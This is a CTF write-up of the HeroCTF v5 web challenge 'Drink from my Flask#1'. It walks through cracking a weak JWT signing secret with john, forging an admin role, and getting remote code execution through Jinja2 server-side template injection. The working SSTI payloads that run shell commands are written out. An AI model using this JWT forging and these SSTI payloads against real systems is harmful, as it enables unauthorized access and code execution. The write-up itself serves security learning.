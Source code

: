 # Drink from my Flask#1

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- 87 solves / 168 points
- Difficulty: Medium
- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

A friend of yours got into an argument with a flask developer. He tried handling it himself, but he somehow got his nose broken in the process... Can you put your hacker skills to good use and help him out?  
  
You should probably be able to access the server hosting your target's last project, shouldn't you ? I heard is making a lost of programming mistakes...  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513185709.png)

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513185720.png)

In here, we need to supply `op`, `n1`, `n2` GET parameters, otherwise it'll return "Invalid operation".

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513185901.png)

When we go to `/`, it'll set a new cookie called `token`, and it's a JWT (JSON Web Token).

> Note: It's highlighted in green is because of the "JSON Web Tokens" extension in Burp Suite. 

**JWT Decoded:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513190019.png)

As you can see, it's using algorithm HS256, which is HMAC + SHA256. In the payload section, **it has a `role` claim, it's currently set to `guest`.**

**Hmm... Since HS256 is a symmetric signing key algorithm, we can try to brute force the signing secret.**

**To do so, I'll use `john`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|19:06:17(HKT)]
└> john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
[...]
key              (?)     
[...]
```

**Nice!! We successfully cracked the signing secret: `key`!!**

Now, we can sign our modified JWT via [jwt.io](https://jwt.io/)!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513191014.png)

But what value should we modify in the `role` claim?

Hmm... Don't know yet.

**Let's try to provide `op`, `n1`, `n2` GET parameters in `/`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513191526.png)

Maybe we can do command injection??

But nope, I tried.

**Then, I try to go to a non-existance page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513192018.png)

And oh! We found the admin page!

**We now shouldn't able to visit the admin page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513192042.png)

**Now, as the JWT signing secret was found, let's modify the `role` claim to `admin`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513192146.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513192212.png)

Umm... What? Just that?

**In those 404 page and `/adminPage`, it's vulnerable to reflected XSS:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513192718.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513192805.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513192753.png)

However, those aren't useful for us... Our goal should be finding sever-side vulnerability...

**I also noticed this weird error:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513193501.png)

> "Anormaly long payload"

After poking around, I have no idea what should I do...

Ah! Wait, how do the 404 page is rendered?

**You guessed! Flask is using a template engine called "Jinja2":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513211612.png)

Nice! We can try to gain Remote Code Execution (RCE) via Server-Side Template Injection (SSTI)!

## Exploitation

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#rce-escaping), we could gain RCE via the following payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513211927.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513211933.png)

Ahh... I now know why the "Anormaly long payload" exist...

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|21:20:45(HKT)]
└> curl http://dyn-04.heroctf.fr:12369/$(python3 -c "print('A' * 34)")
<h2>/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA was not found</h2><br><p>Only routes / and /adminPage are available</p>                                                                                                       ┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Web/Drink-from-my-Flask#1)-[2023.05.13|21:20:47(HKT)]
└> curl http://dyn-04.heroctf.fr:12369/$(python3 -c "print('A' * 35)")
Anormaly long payload
```

As you can see, the path is limited to 34 characters.

**So... We need to craft a SSTI payload that less than 35 characters.**

**To bypass that, we can **use the `config` object instance in Flask.** This object instance stores the server's configuration:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513213012.png)

**In that object instance, it has a method called `update`, which add/update an attribute in that object instance:**
```python
config.update(key=value)
```

That being said, we can use the `update()` method to save some characters!

However, I don't wanna go through that painful route!

**Do you still remember we have reflected XSS in `/adminPage` with the JWT's `role` claim?**

**Does it have any character limit AND vulnerable to SSTI?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513220228.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513220235.png)

Nice!! That `/adminPage` doesn't have any character limit!

**Let's try to gain RCE again:**
```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -lah').read() \}\}
```

> Note: Once again, the above payload is from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) 

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513220657.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513220703.png)

**Let's read the flag!!**
```
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() \}\}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513220758.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513220810.png)

- **Flag: `Hero{sst1_fl4v0ur3d_c0Ok1e}`**

## Conclusion

What we've learned:

1. Cracking JWT Secret & Exploiting RCE Via SSTI